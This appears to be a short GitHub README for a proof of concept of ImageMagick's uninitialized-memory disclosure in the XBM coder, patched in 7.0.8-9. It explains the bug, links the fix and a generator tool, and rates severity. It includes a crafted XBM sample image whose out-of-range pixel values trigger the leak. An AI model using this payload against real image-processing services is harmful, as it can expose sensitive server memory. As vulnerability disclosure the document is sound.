 # ImageMagick memory leak at XBM coder
ReadXBMImage in coders/xbm.c in ImageMagick before 7.0.8-9 (https://github.com/ImageMagick/ImageMagick/commit/216d117f05bff87b9dc4db55a1b1fadb38bcb786) leaves data uninitialized when processing an XBM file that has a negative pixel value. 
If the affected code is used as a library loaded into a process that includes sensitive information, that information sometimes can be leaked via the image data. 
Exploit for ImageMagick's uninitialized memory disclosure in xbm coder.  
Auto-generation tool is [xbmdump](https://github.com/d0ge/xbmdump)
## Sample image
```
#define -_width 16
#define -_height 16
static char -_bits[] = {
  0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 0x9bf219b0, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 
  0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, };
```
## Severity: Medium - High
Severity level depends on the web server environment.
